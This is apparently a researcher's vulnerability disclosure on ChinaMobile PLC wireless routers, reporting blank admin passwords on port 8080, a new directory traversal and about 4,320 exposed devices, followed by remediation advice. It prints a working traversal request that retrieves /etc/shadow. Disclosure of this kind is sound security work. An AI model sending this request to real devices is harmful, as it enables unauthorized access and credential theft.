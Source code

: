 <h1>Insecure permissions and multiple vulnerabilities in ChinaMobile PLC wireless routers leaves more than 4,300 devices vulnerable to remote attacks Blank passwords and default factory settings</h1>

ChinaMobile PLC Wireless Router model GPN2.4P21-C-CN running the firmware version W2000EN-01(hardware platform Gpn2.4P21-C_WIFI-V0.05) is shipped and deployed without an administrative password on port 8080 and the web configuration interface is accessible using the following syntax: http://<target ip>:8080. From the configuration page an attacker can change the router configuration or he can try to obtain access to the internal network.

<h2>Directory traversal vulnerability</h2>
A different directory traversal vulnerability than the one identified by Rahul Raz (https://www.exploit-db.com/exploits/40304) was identified by using:

 <code>GET /cgi-bin/webproc?getpage=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fshadow&errorpage=html/main.html&var:language=zh_cn&var:menu=setup&var:page=connected&var:retag=1&var:subpage=-</code>
to retrieve the ```etc/shadow``` file where two user accounts were identified with the corresponding hashed passwords:

<code>root:<hash_deleted>:13796:0:99999:7:::</code>
<code>#tw:<hash_deleted>:13796:0:99999:7:::</code>

<h2>Attack surface</h2>
Over 4,320 vulnerable PLC Wireless routers were identified using Shodan. Most of the devices are located in South America (Argentina, Brazil, Honduras, Colombia) followed by Asia (Indonesia, India, Thailand).

<h2>Remediation</h2>
Adding a password to the admin user accounts should reduce the risk of being exploited. The risk of a successful directory traversal still exist and given the fact that the user can’t change the tw account password other risk mitigation strategies should be employed.

 
 Author: Sergiu Sechel (https://sergiusechel.medium.com/insecure-permissions-and-multiple-vulnerabilities-in-chinamobile-plc-wireless-routers-leaves-more-d3eb9ff70d24)
